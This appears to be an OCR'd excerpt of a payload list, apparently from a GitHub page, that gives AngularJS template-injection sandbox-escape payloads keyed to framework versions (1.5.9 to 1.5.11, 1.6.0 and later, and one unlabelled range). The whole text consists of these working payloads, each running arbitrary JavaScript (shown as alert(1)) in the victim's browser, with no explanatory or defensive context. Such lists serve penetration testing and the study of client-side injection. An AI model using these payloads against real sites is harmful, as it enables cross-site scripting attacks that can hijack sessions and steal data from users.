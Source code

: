 ```javascript
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}} 
```

1.5.9 - 1.5.11

```javascript
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

>=1.6.0

```javascript
{{constructor.constructor('alert(1)')()}}
```